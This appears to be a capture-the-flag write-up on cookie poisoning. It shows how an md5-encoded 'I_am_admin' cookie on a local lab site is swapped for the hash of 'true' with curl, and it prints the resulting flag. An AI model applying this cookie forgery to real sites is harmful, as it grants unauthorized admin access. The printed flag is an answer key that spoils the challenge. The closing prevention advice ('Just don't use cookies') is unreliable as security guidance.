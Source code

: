 # Cookie poisoning
Cookie poisoning is the modification of a cookie by an attacker to gain unauthorized information.

### Step 1
Navigate to http://0.0.0.0/index.php
> * Inspect page and find the header section
> * Find **cookie: _I_am_admin=68934a3e9455fa72420237eb05902327_**  

### Step 2
> * md5 decrypt: 68934a3e9455fa72420237eb05902327 => false
> * md5 encrypt : true => b326b5062b2f0e69046810717534cb09

### Step 3
> * Attack: Use cURL to modify the cookie section within the header with new md5 encoded string
> 1. curl -b 'I_am_admin=b326b5062b2f0e69046810717534cb09' http://0.0.0.0/index.php | grep 'Flag'
> 2. **THE FLAG IS : df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3**

https://searchsecurity.techtarget.com/definition/cookie-poisoning

https://catonmat.net/cookbooks/curl/set-cookies

https://www.md5online.org/md5-decrypt.html

## Prevention
> * Just don't use cookies
> * https://www.webdesignerdepot.com/2019/06/does-the-web-really-need-cookies/
> * https://www.venafi.com/blog/what-are-cookie-poisoning-attacks-0
